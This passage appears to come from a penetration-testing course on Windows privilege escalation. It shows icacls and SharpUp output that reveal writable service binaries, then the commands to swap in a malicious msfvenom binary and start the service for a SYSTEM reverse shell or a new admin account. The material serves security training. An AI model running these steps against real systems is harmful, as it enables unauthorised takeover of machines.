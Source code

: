 Weak Permissions

```powershell
PS C:\htb> icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

C:\Program Files (x86)\PCProtect\SecurityService.exe BUILTIN\Users:(I)(F)
                                                     Everyone:(I)(F)
                                                     NT AUTHORITY\SYSTEM:(I)(F)
                                                     BUILTIN\Administrators:(I)(F)
                                                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files

```

### Replacing Service Binary

This service is also startable by unprivileged users, so we can make a
 backup of the original binary and replace it with a malicious binary 
generated with `msfvenom`. It can give us a reverse shell as `SYSTEM`, or add a local admin user and give us full administrative control over the machine.

Weak Permissions

```
C:\htb> cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
C:\htb> sc start SecurityService

```

---

## Weak Service Permissions

### Reviewing SharpUp Again

Let's check the `SharpUp` output again for any modifiable services. We see the `WindscribeService` is potentially misconfigured.

Weak Permissions

```
C:\htb> SharpUp.exe audit

=== SharpUp: Running Privilege Escalation Checks ===

=== Modifiable Services ===

  Name             : WindscribeService
  DisplayName      : WindscribeService
  Description      : Manages the firewall and controls the VPN tunnel
  State            : Running
  StartMode        : Auto
  PathName         : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"

```
